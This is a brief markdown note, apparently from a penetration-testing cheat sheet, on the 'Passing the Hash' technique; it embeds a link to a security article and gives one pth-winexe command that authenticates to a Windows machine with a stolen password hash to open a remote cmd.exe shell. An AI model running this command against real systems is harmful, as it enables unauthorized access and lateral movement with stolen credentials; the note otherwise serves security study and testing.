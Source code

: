 # Passing the Hash

{% embed url="https://www.securitylab.ru/analytics/504366.php" %}

```
pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe
```
